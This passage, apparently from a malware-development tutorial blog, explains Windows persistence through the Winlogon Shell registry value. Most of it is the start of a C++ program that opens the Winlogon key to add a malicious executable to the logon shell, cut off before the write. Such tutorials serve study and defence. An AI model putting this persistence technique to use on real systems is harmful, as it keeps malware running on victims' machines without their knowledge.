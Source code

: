 ![pers](/assets/images/58/2022-06-12_14-59.png){:class="img-responsive"}    

As you can see in both cases, the malware will be executed during Windows authentication.    

But there are interesting caveat. For example if we update registry key as following logic:    

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

```
